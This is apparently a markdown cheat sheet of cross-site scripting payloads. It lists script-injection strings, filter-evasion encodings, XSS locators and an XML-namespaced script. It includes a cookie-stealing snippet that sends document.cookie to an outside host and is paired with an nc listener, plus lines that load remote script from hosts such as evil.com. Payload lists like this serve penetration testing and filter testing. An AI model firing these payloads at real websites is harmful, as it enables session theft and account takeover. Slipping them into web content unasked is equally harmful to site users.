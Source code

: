 # XSS (CROSS SITE SCRIPTING)

Quick Payloads
--------------
```
<script>alert("XSS")</script>
<script>alert('XSS')</script>
<script>alert(123123)</script>
<script>alert(document.cookie)</script>
<svg onload=alert(1)>
"/><object data="data:text/html;base64,PHNjcmlwdD5hbGVydChkb2N1bWVudC5jb29raWUpOzwvc2NyaXB0Pg==
"/><iframe srcdoc="&lt;img src&equals;x:x onerror&equals;alert&lpar;1&rpar;&gt;" />
<body background="javascript:alert('running in background');">
<iframe src="javascript:alert('Hello');“/>
<input type=image src="&#74;avascript:alert('Have You')">
<img src='iamnothere.gif' onError=”alert('EventHandler')">
<frameset onLoad="alert('EventHandler')">
<layer name="extern" src="http://evil.com/test.html">
```

iframe: `<iframe src="http://www.cnn.com" height = "0" width = "0"></iframe>`  

Stealing cookies:  
```
<script>
new Image().src="http://0.0.0.0/bogus.php?output="+document.cookie;
</script>

You can see the browser's request by setting up nc listener on port 80.
```

* [OWASP XSS Filter Evasion Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)

[Cheatsheet](http://ha.ckers.org/xss.html)
------------------------------------------

XSS locator:

```javacsript
';alert(String.fromCharCode(88,83,83))//\';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//\";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
```

XSS locator 2:

```
'';!--"<XSS>=&{()}
```

Other:

```
<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>
<IMG SRC="javascript:alert('XSS');">
<IMG SRC=javascript:alert('XSS')>
<IMG SRC=JaVaScRiPt:alert('XSS')>
<IMG SRC=javascript:alert(&quot;XSS&quot;)>
<IMG SRC=`javascript:alert("RSnake says, 'XSS'")`>
<IMG """><SCRIPT>alert("XSS")</SCRIPT>">
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;>
<IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>
<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>
<IMG SRC="jav	ascript:alert('XSS');">
<IMG SRC="jav&#x09;ascript:alert('XSS');">
<IMG SRC="jav&#x0A;ascript:alert('XSS');">
<IMG SRC="jav&#x0D;ascript:alert('XSS');">
```

XSS and XML
-----------
```
<html:html xmlns:html='http://www.w3.org/1999/xhtml'>
  <html:script>
      alert(document.cookie);
  </html:script>
</html:html>
```

Misc
----

* [JSFuck](http://www.jsfuck.com/) - Javascript with six characters
* [XSS Payloads](http://www.xss-payloads.com/) - a variety of XSS payloads

Resources
---------

* [Cross-Site Scripting (XSS)](http://phpsecurity.readthedocs.io/en/latest/Cross-Site-Scripting-(XSS).html)
